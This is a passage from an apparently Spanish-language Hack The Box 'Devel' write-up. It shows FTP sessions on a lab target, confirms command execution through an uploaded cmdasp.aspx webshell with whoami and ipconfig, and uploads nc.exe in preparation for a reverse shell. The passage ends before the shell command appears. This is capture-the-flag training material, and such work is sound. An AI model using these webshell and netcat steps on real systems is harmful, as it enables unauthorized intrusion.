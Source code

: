 ```bash
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```

Abrimos el recurso desde el navegador y observamos nuestra webshell, para validar introducimos los comandos `whoami` y `ipconfig` para corroborar que nos encontramos en la máquina víctima y tenermos ejecución de comandos a nivel de sistema.  

![](/assets/images/htb-devel/devel-cmdasp.png)

![](/assets/images/htb-devel/devel-cmdasp1.png)

Ahora procedemos a entablarnos una reverse shell, primerament subimos el archivo *nc.exe* para poderlo ejecutar:

```bash
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28306 bytes sent in 0.00 secs (39.1228 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
08-29-21  12:56AM                 1442 cmdasp.aspx
03-17-17  05:37PM                  689 iisstart.htm
08-29-21  01:04AM                28306 nc.exe
08-29-21  12:32AM                   51 test.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```
